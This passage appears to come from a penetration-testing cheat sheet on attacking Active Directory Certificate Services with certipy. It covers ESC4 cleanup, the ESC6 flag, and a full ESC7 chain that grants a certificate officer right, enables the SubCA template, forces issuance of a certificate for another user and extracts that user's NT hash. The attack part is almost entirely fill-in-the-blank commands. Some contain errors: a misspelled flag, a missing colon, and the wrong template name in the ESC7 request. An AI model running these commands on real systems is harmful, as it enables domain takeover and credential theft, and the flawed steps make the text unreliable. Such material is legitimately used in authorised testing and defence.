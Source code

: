 Restore the configuration afterwards:


```
$> certipy template '<domain>/<user>'@<certificatesRhost> -hashes :<ntHash> -template 'ESC4' -configuration '<file>.json'
```

### ESC6

ESC6 is when the CA specifies the EDITF_ATTRIBUTESUBJECTALTNAME2 flag.
In essence, this flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template’s configuration (see ESC1).

### ESC7 (Manage CA & Manage Certificates)

In order for this technique to work, the user must also have the Manage Certificates access right, and the certificate template SubCA must be enabled.
Add Manage Certificates access right:

```
$> certipy ca '<domain>/<user>:<password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -add-officer '<attackerUser>'
```

Enable SubCA:

```
$> certipy ca '<domain>/<user>:<password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -list-templates 

$> certipy ca '<domain>/<user>:<password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -enbale-template '<template>'
```

Request a certificate based on the SubCA certificate template and receive CERTSRV_E_TEMPLATE_DENIED error:

```
$> certipy req '<domain>/<user><password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -template 'ESC4' -alt '<targetUser>@<domain>'
```

Issue a failed certificate request specifying the request ID:

```
$> certipy ca '<domain>/<user>:<password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -issue-request <id>
```

Retreive certificate:

```
$> certipy req '<domain>/<user><password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -retrieve <id>
```

Extract NT hash:

```
$> certipy auth -pfx '<file>.pfx' -username '<user>' -domain '<domain>' -dc-ip <domainController>
```
